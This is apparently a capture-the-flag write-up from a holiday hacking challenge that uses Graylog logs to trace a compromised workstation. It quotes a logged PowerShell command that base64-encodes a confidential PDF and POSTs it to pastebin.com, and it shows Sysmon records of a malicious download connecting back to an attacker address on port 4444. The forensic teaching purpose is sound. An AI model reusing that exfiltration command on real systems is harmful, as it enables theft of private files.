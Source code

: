 # Tangle Coalbox - Frosty Keypad
`7331` is prime.

# Pepper Minstix - Graylog
Actual page that can be opened in the browser:

* https://graylog.elfu.org/

## Questions

### Question 1
What is the full-path + filename of the first malicious file downloaded by Minty?

* Answer `C:\Users\minty\Downloads\cookie_recipe.exe`

Search for `recipe` and one message pops up.

```powershell
CommandLine
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest -Uri
https://pastebin.com/post.php -Method POST -Body @{ "submit_hidden" =
"submit_hidden"; "paste_code" =
$([Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf")));
"paste_format" = "1"; "paste_expire_date" = "N"; "paste_private" = "0";
"paste_name"="cookie recipe" }
```

`C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf`

This is for alabaster and not what we want.

Searching for `minty` brings up a lot of results but if we search for it in the
results in the browser with `ctrl+f` we can see the downloaded file:

`C:\Users\minty\Downloads\cookie_recipe.exe`

### Question 2
The malicious file downloaded and executed by Minty gave the attacker remote
access to his machine. What was the ip:port the malicious file connected to
first?

* Answer `192.168.247.175:4444`

Searching for `cookie_recipe.exe` we can then click on `EventID` to the left and
then click on `Quick Values` to bring up a chart. Then we can click on the
magnifying glass beside each value to filter by that event ID.

* `cookie_recipe.exe AND EventID:2` is when Firefox created the downloaded file.
* `cookie_recipe.exe AND EventID:3` is what we want.

```
message

elfu-res-wks1 MSWinEventLog 1   Microsoft-Windows-Sysmon/Operational    2441
Tue Nov 19 05:24:04 2019    3   Microsoft-Windows-Sysmon    SYSTEM  User
Information elfu-res-wks1   Network connection detected (rule: NetworkConnect)
Network connection detected:  RuleName:   UtcTime: 2019-11-19 13:24:03.757
ProcessGuid: {BA5C6BBB-ECF2-5DD3-0000-001086363300}  ProcessId: 5256  Image:
C:\Users\minty\Downloads\cookie_recipe.exe  User: ELFU-RES-WKS1\minty  Protocol:
tcp  Initiated: true  SourceIsIpv6: false  SourceIp: 192.168.247.177
SourceHostname: elfu-res-wks1.localdomain  SourcePort: 53564  SourcePortName:
DestinationIsIpv6: false  DestinationIp: 192.168.247.175  DestinationHostname:
DEFANELF  DestinationPort: 4444  DestinationPortName:    20132
```
